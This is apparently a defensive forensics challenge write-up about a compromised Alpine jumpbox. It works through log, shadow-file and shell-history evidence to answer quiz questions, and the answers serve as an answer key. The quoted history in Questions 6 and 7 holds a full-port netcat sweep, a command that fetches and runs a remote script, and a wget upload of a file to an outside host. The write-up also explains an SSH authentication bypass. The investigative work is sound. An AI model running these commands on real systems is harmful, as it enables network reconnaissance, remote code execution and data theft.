






**Prepared by:** Mulandii · **Difficulty:** Very Easy

## Description

A jumpbox was compromised through a flaw in its SSH server, and the attacker used it to scan the network behind it. We are given part of the server's filesystem and have to find how they got in and what they did.

## Scenario

> Suspicious traffic was observed from a misconfigured jumpbox to a suspicious domain. You have been provided with evidence pulled from the jumpbox server. Determine how the attackers gained access to the server and what activity they performed afterwards.

## Artifacts Provided

`SSHole.zip` (SHA-256 `0fafbe2371c6f80b788d3c682c8a4c0603c37e4c2254e5c1da01bc22a23273e6`), password `hacktheblue`.

## Skills Learnt

* Finding the right log when there is no `auth.log`
* Recognising a known CVE in SSH logs and the shadow file
* Reading a shell history as evidence

## Initial Analysis

The zip is AES-encrypted, so we extract it with `bsdtar`:

```bash
mkdir extracted
bsdtar --passphrase hacktheblue -xf SSHole.zip -C extracted
```

It holds 274 files from an Alpine Linux host named `dev-jumpbox`: `etc/` (configuration), `var/log/` (logs), and the home folders of `adminsvc` and `root`.

Alpine has no `auth.log`. Its logger writes everything to `/var/log/messages` and starts each line with the message type, such as `auth.info` for SSH events.

## Questions

### 1. What Linux distribution name and version was the targeted server running?

A Linux system describes itself in `/etc/os-release`:

```bash
cat etc/os-release
```


_`os-release` names the distribution and its version_

**Answer:** `Alpine Linux 3.24.3`

### 2. What is the CVE ID of the vulnerability abused by the attacker to gain access?

Searching for the exact OS version surfaces the CVE:


_Searching for the OS version surfaces the CVE_

It is **CVE-2026-123158**, nicknamed sshole, an authentication bypass in OpenSSH on Alpine. The vendor write-ups from [StepSecurity](https://www.stepsecurity.io/blog/cve-2026-123158-sshhole-openssh-musl-password-bypass) and [Cycode](https://cycode.com/blog/sshole-cve-2026-123158-openssh-alpine-linux-vulnerability/) explain it. An account with no password has `*` in its shadow entry. If a password is longer than 256 bytes, Alpine's `crypt()` fails and returns `*`, and sshd compares that with the shadow entry, sees a match, and lets the login through.

**Answer:** `CVE-2026-123158`

### 3. When did the attacker exploit the vulnerability?

SSH events are in `var/log/messages`. We filter for login attempts:

```bash
grep -nE 'Accepted|Failed' var/log/messages
```


_Every SSH login in the log_

Two accounts appear: `root` from `192.168.72.131`, and `adminsvc` from `192.168.72.1`. The `adminsvc` login is a failure and then a success in the same process, which is how the bypass behaves in the vendor tests:

```
11:27:05  sshd-session[4852]: Failed password for adminsvc from 192.168.72.1 port 61351 ssh2
11:27:08  sshd-session[4852]: Accepted password for adminsvc from 192.168.72.1 port 61351 ssh2
```

`root` has a failed-then-accepted pair too, so the pattern alone does not decide it. We follow `adminsvc` because its account has no password (Question 5) and its history is the attack (Question 6). The log has no year, so we took it from the file dates.

**Answer:** `2026-11-06 11:27:08`

### 4. Which user account was abused by the attacker?

The account's own activity is in its home folder. `.ash_history` is a hidden file, so we list with `-a`:

```bash
cd home/adminsvc/
ls -la
cat .ash_history
```


_`adminsvc` is the only user under `/home`, and its history shows the attack_

The history shows a subnet scan, a script run from the internet, an upload, and a shredded file. Root's history looks like normal server setup. A history can be edited, so that is a judgement and not proof.

**Answer:** `adminsvc`

### 5. What string value causes the authentication bypass?

We check how the accounts are stored in `etc/shadow`, printing only the start of each field:

```bash
awk -F: '$1=="root"||$1=="adminsvc"{h=$2; if(length(h)>4) h=substr(h,1,4)"..."; print $1": "h}' etc/shadow
```

```
root: $6$f...
adminsvc: *
```

`root` has a real hash. `adminsvc` has exactly `*`, so the account has no password, which is the vulnerable condition. The log does not record the password that was sent, so the bypass is inferred and not seen directly.

**Answer:** `*`

### 6. What command did the attacker use to scan the network reachable via the jumpbox, allowing them to target internal developer systems?

The command is in the same history. We copy it, not retype it:


_The scan, second line of the history_

```bash
for ip in {1..254}; do nc -zvw 1 192.168.18.$ip 1-65535 2>&1 | grep -E "succeeded|open"; done
```

It loops over every address in `192.168.18.0/24` and uses netcat (`-z` scans without sending data, `-w 1` waits one second) on all 65,535 ports, keeping only the ones that answer. The result is in `scanreport.txt`:

```
192.168.18.5 443 445 3389
192.168.18.23 88 139 445 3389 6801 54321
```

Two hosts answered. Port 88 is Kerberos, so the second looks like a domain controller. That is our reading of the ports.

**Answer:** `for ip in {1..254}; do nc -zvw 1 192.168.18.$ip 1-65535 2>&1 | grep -E "succeeded|open"; done`

### 7. What was the exfiltration URI where the attacker exfiltrated a sensitive file?

The end of the history shows the upload:


_The upload command, with its destination circled_

```bash
bash <(wget -qO- https://raw.githubusercontent.com/papinyurii33/devscripts/refs/heads/main/setup.sh)
ls -l /tmp/.devenv
wget --post-file=/tmp/.devenv -O- https://devv.coding.eu/process
shred -u /tmp/.devenv
```

The attacker ran a script from GitHub in memory, checked for a hidden file it left in `/tmp`, uploaded that file with a POST request, and shredded it. `/tmp` was not collected, so we cannot say what the file held.

**Answer:** `https://devv.coding.eu/process`

## Summary

The jumpbox ran Alpine Linux 3.24.3 with a vulnerable OpenSSH. Its passwordless `adminsvc` account let the attacker in at 11:27:08 on 6 November. From there they scanned `192.168.18.0/24`, ran a script, uploaded a hidden file to `devv.coding.eu`, and shredded it. The attacker's address, `192.168.72.1`, is private, so the logs do not show where they really came from.
